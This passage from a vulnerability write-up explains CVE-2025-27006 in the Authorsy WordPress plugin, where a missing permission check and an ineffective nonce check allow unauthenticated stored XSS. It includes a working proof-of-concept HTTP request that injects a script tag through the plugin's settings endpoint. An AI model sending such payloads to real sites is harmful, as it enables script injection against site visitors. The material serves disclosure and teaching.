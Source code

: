 Key points:

* If **nonce** is invalid, it only returns a `WP_Error` but does not stop execution.
* `update_settings` ignores the return value, so the update proceeds anyway.

👉 Therefore, an attacker can modify CSS containing XSS payload in the database **without any privilege**. This CSS is injected into `<head>`.

---

## Exploit

### Detect XSS

Send a **POST** request to `/wp-json/authorsy/v1/settings` with an XSS payload:

```http
POST /wp-json/authorsy/v1/settings HTTP/1.1
Host: localhost
Content-Type: application/json

{
"primary_color":"</style><script>alert(document.domain)</script><style>"
}
```

We close the `<style>` tag in the head and inject a `<script>` containing the XSS payload.

Access any page:

![XSS](images/posts/2025-09-17-CVE-2025-27006/xss.png)

👉 XSS succeeds. Inspect shows the modified code:

```html
<style>
    :root { 
        --ea-color-main: </style><script>alert(document.domain)</script><style>;  
    } 
</style>
```

---

## Conclusion

The `CVE-2025-27006` vulnerability in **Authorsy <= 1.0.5** is a typical example of **Broken Access Control** combined with **XSS**. Causes:

1. **REST API** lacks permission checks: any user can call `/wp-json/authorsy/v1/settings` to modify options.
2. **Custom CSS** is not sanitized: CSS values are inserted directly into `<style>` in `<head>`, allowing script injection.
3. Nonce handling is flawed: `verify_nonce` only returns a **WP\_Error** without stopping execution, making the check ineffective.
